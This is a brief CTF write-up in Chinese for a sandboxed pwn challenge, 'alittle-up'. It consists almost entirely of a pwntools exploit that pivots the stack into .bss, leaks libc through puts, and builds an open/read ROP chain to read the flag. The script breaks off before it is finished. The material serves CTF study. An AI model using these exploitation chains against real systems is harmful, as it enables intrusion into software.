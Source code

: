 ‍

#### alittle-up

[![](assets/1701606597-b274ff1d4dddd310977f2691b6c310af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170338-0822b9c0-845f-1.png)

相较前一题加了个沙盒

exp：

```bash
bss = 0x601060 -0x60 +0x400
li(hex(bss))

main = 0x400790
read = 0x4007B1

rdi = 0x400833
ret = 0x040053e

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

p.recv(0x13)

pl = b'a'*0x100+p64(bss)+p64(read) #1
p.send(pl)

pl = b'a'*0x100+p64(bss+0x100)+p64(read) #2
p.send(pl)

pl = p64(bss+0x110)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3
p.send(pl)

libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-libc.sym['puts']
li(hex(libc_base))

open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
puts_addr = libc_base + libc.sym['puts']


pl = b'a'*0x100+p64(bss+0x120)+p64(read) #4
p.send(pl)

rsi_r15 = 0x400831

pl = p64(bss+0x130)+p64(rdi)+p64(0)+p64(rsi_r15)+p64(0x601200)+p64(0x40)+p64(read_addr)+p64(main) #5
p.send(pl)
pause()
p.send('flag')

p.recv()
pl = b'a'*0x100+p64(bss+0x300)+p64(read) #6
p.send(pl)
pl = b'a'*0x100+p64(bss+0x400)+p64(read) #7
```